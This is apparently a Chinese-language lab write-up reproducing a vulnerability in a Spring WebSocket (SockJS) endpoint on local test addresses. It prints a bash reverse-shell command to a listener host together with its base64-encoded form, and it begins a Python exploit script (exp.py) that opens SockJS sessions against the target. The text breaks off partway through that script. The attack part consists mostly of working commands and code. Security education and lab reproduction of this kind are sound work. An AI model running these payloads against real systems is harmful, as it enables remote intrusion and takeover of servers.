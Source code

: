 开启漏洞

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083059.png)image-20210829215634535![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083100.png)image-20210829215721412

访问该页面：

    
    
    http://192.168.173.144:8080/gs-guide-websocket  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083101.png)image-20210829220006857

#### 漏洞复现

对反弹shell的命令base64编码：

    
    
    bash -i >& /dev/tcp/192.168.173.133/1234 0>&1  
      
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3My4xMzMvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}  
    

创建exp.py,自行修改ip和命令语句：

    
    
    #!/usr/bin/env python3  
    import requests  
    import random  
    import string  
    import time  
    import threading  
    import logging  
    import sys  
    import json  
      
    logging.basicConfig(stream=sys.stdout, level=logging.INFO)  
      
    def random_str(length):  
        letters = string.ascii_lowercase + string.digits  
        return ''.join(random.choice(letters) for c in range(length))  
      
      
    class SockJS(threading.Thread):  
        def __init__(self, url, *args, **kwargs):  
            super().__init__(*args, **kwargs)  
            self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'  
            self.daemon = True  
            self.session = requests.session()  
            self.session.headers = {  
                'Referer': url,  
                'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'  
            }  
            self.t = int(time.time()*1000)  
      
        def run(self):  
            url = f'{self.base}/htmlfile?c=_jp.vulhub'  
            response = self.session.get(url, stream=True)  
            for line in response.iter_lines():  
                time.sleep(0.5)  
          